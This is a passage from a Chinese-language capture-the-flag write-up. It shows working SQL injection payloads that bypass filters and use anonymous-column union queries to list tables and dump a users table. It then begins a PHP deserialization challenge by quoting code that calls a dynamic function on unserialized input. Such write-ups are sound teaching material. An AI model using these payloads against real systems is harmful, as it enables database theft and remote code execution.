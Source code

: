注表名：

```mysql
-1'union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

猜表的列数：(这里就要用到无名注入了) 得到users有3列

```mysql
-1'union/**/select/**/1,(select/**/group_concat(`1`)/**/from(select/**/1,2/**/union/**/select*from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
-1'union/**/select/**/1,(select/**/group_concat(`1`)/**/from(select/**/1,2,3/**/union/**/select*from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

注值：

```mysql
-1'union/**/select/**/1,(select/**/group_concat(`2`)/**/from(select/**/1,2,3/**/union/**/select*from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
-1'union/**/select/**/1,(select/**/group_concat(`3`)/**/from(select/**/1,2,3/**/union/**/select*from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

### [NPUCTF2020]ReadlezPHP

+ php反序列化
+ php变量动态函数

**知识点：** 

assert()函数：

[![WQyFIS.png](https://z3.ax1x.com/2021/07/17/WQyFIS.png)](https://imgtu.com/i/WQyFIS)

**解题：**

查看源码后，得到提示：

[![WQySKI.png](https://z3.ax1x.com/2021/07/17/WQySKI.png)](https://imgtu.com/i/WQySKI)

去访问，得到代码：

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```
